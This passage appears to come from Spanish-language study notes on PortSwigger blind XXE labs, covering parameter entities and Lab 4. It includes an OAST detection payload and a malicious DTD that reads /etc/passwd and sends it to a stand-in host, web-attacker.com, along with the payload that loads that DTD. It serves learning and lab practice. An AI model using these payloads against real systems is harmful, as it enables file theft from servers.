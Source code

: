 - La segunda es que cuando se referencian no se emplea el '&', si no el '%':

```default
%myparameterentity;
```


De esta forma, se puede utilizar esta entidad en una prueba de OAST de la siguiente manera:

```XML
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

<br />

**Laboratorio 4: Blind XXE with OAST interaction via XML parameter entities**

Este laboratorio contiene una vulnerabilidad Blind XXE en una característica "Check Stock" que parsea XML input.

En primer lugar, intentamos realizar un OAST mediante una entidad tradicional de XXE. Sin embargo, no obtenemos respuesta. Seguidamente, empelamos un XML parameter entity como el anterior y le ponemos el Host de nuestro BurpCollaborator.

<br />

Una vez que hems visto qué dos entidades XML podemos emplear para DETECTAR vulnerabilidades XXE ciegas. Vamos a ver cómo podemos explotar dicha vulnerabilidad para extraer información.

La técnica se basa en construir una DTD maliciosa , como por ejemplo:

```XML
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

Esta DTD lleva a cabo los siguientes pasos:

- Define una entidad de parámetro XML llamada 'file', que contiene el contenido del '/etc/passwd' archivo.
- Define una entidad de parámetro XML llamada 'eval', que contiene una declaración dinámica de otra entidad de parámetro XML llamada 'exfiltrate'. La 'exfiltrate' entidad se evaluará realizando una solicitud HTTP al servidor web del atacante que contiene el valor de la 'file' entidad dentro de la cadena de consulta de URL.
- Utiliza la 'eval' entidad, lo que hace que se realice la declaración dinámica de la 'exfiltrate' entidad.
- Utiliza la 'exfiltrate' entidad, por lo que su valor se evalúa solicitando la URL especificada.

Este DTD debe alojarse dentro de un servidor y al mismo tiempo se debe enviar un payload al sitio web vulnerable

```HTML
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
```

para que solicite acceso a dicha DTD y la ejecute línea a línea.

<br />
